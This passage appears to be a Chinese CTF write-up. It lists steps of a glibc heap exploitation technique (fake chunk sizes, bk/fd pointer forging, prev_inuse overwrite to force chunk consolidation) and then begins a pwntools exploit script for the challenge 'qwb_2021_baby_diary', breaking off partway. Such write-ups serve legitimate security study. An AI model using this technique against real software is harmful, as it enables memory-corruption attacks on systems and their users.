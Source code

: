 2.分配一个范围大于tcache的最大值并且在largebin范围内的chunk A.

3.分配一个隔离chunk k.

![image-20210713163115172](image-20210713163115172.png)

4.释放chunk A,在chunk A分配 chunk B,chunk C,chunkD,chunk F ,chunk E.要求chunk C 和chunk  D最好相邻且大小相同,同时让chunk B和 chunk D前14位相同,要求chunk F和chunk E 最好相邻.

5.释放chunk C 和chunk D 让其合并为smallbins,

6.分配chunk G 大小是让chunk G分配后,原chunk A 巧好剩下巧好空间H为chunk C +chunk  D的大小.

7.分配一个大的chunk,让原chunk A 剩下空间H加入smallbins.

8.重新分配chunk C,chunk D.让chunk C  bk 中addr为chunk D.同时修改其bk为 chunk B addr.

9.修改chunk B的bk为fake size，fd修改为chunk C addr .

10.先释放D再释放B，在分配回chunk B ,让原来chunk B fd 位置的值为chunk B addr

+0x10.

11.通过chunk F 修改 chunk E 的`prevsize`值为fake size，并覆盖E的prev_inuse值为0.

 ![image-20210713175759641](image-20210713175759641.png)

12.释放chunk E， B、C、D、F、E合并。

### 例题:qwb_2021_baby_diary 

```python

from pwn import *
import libcfind
#sh=process('./baby_diary')
#sh=remote('8.140.114.72', 1399)
elf=ELF('./baby_diary')

context.arch="amd64"
#context.log_level="debug"

def add(size, content='/bin/sh\x00'):
    sh.recvuntil(">> ")
    sh.sendline("1")
    sh.recvuntil("size: ")
    sh.sendline(str(size))
    sh.recvuntil("content: ")
    sh.sendline(content)

def show(idx):
    sh.recvuntil(">> ")
    sh.sendline("2")
    sh.recvuntil("index: ")
    sh.sendline(str(idx))

def free(idx):
    sh.recvuntil(">> ")
    sh.sendline("3")
    sh.recvuntil("index: ")
    sh.sendline(str(idx))


def pwn2():
    for i in range(7):
        add(0x30)

    add(0x4ba0)#7
    add(0x600)#8
```